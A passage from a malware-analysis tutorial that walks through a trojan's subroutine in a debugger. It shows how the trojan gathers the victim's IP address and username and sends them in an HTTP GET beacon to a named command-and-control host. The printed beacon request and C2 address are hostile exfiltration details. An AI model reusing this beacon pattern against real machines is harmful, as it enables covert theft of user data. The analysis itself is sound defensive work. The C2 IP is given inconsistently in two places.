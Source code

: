 _2_
It starts by calling [gethostname](https://learn.microsoft.com/en-us/windows/win32/api/winsock/nf-winsock-gethostname) , which returns the hostname of the current machine. It then calls [gethostbyname](https://learn.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-gethostbyname) on the retrieved hostname to get a pointer to a `hostent` structure. The `hostent` structure contains the following fields:
![hostent-typedef][/assets/img/analyzingtrojan/hostent_typedef.png]
_Typedef of HOSTENT structure_
The field at offset `0x0c` is accessed in the `mov edx, [eax+0Ch]`. This corresponds to the `h_addr_list` field, since every pointer is of size `4` bytes, and then each short is `2` bytes. The instruction `mov eax, [eax]`  dereferences the pointer to get the first member of `h_addr_list`, which the documentation says is a NULL terminated list that contains the addresses of the host. Then `inet_ntoa` is called on the first address of the current computer to convert it from decimal form to string form. In conclusion, this subroutine just returns the IP of the local computer, e.g.:
![hostip-buf][/assets/img/analyzingtrojan/hostip_buf.png]
_IP_
Let's go back to the second subroutine. We were here:
![back-to-secondsub1][/assets/img/analyzingtrojan/back_to_secondsub1.png]]
_1_
![back-to-secondsub2][/assets/img/analyzingtrojan/back_to_secondsub2.png]]
_2_
There's a check for whether getting the IP of the local computer succeeded. If it didn't succeed, we put it as the string "NONE". Then [GetUserNameA](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-getusernamea) is called to get the username of the person who ran the program. Finally, an HTTP request is constructed:
```
GET /updata/TPDB.php?lg1=... HTTP/1.1
Host: fukyu.jp
```
The `lg` parameters contain the information that was gathered throughout the subroutine. 
To finish analyzing this subroutine, let's make the malware send this HTTP request to our local server. Open the malware in OllyDbg, and step until you get to the second subroutine:
![call-to-second-sub][/assets/img/analyzingtrojan/call_to_second_sub.png]
_The call to the second subroutine in OllyDbg_
Our plan is to step until we get to the call to connect, where we'll change the IP address from `125.206.107.59` to `127.0.0.1`. Once you get there, it should look like this:
![call-to-connect][/assets/img/analyzingtrojan/call_to_connect.png]
_The call to connect in OllyDbg_
Did you know that IP addresses can be represented as numbers? IP addresses are simply four hex bytes, so the address `255.255.255.255` is simply `0xffffffff` (Each two hex digits are the corresponding number in the IP address). We'll utilize this fact to change the return value of `inet_addr`. After the call to `inet_addr`, `eax` contains the decimal representation of the IP address `125.206.117.59`:
![eax-ip][/assets/img/analyzingtrojan/eax_ip.png]
_The current IP in eax_
`0x3B = 59`
`0x75 = 117`
`0xCE = 206`
`0x7D = 125`
The order is reversed because the system is little-endian. Let's calculate the hex representation of `127.0.0.1`:
`127 = 0x7f`
`0 = 0x0`
`0 = 0x0`
`1 = 0x1`
The representation is `0x0100007f`. If so, we should change the value of `eax` to `0x0100007f`. Now just continue the execution with F9 (I also set a breakpoint after the call to end, so that the malware won't continue execution). We see the following request in our server logs:
![httpc2-log][/assets/img/analyzingtrojan/httpc2_log.png]
